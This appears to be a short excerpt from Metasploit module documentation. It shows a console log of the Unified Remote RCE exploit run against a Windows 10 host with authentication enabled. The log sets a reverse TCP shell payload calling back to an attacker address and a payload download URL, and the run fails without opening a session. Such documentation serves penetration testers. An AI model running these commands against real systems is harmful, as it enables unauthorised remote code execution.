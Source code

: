 ### Version 3.11.0.2483 on Windows 10, user authentication, no web server access, visible true

This will fail.

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-iJP3rW13dKjtf8Xz
[*] 2.2.2.2:9512 - Retrieving server config
[-] 2.2.2.2:9512 - Web interface is disabled. Unable to attempt bypass, assuming no authentication.
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\tapEZnGskY.exe' on the target
[*] Exploit completed, but no session was created.
```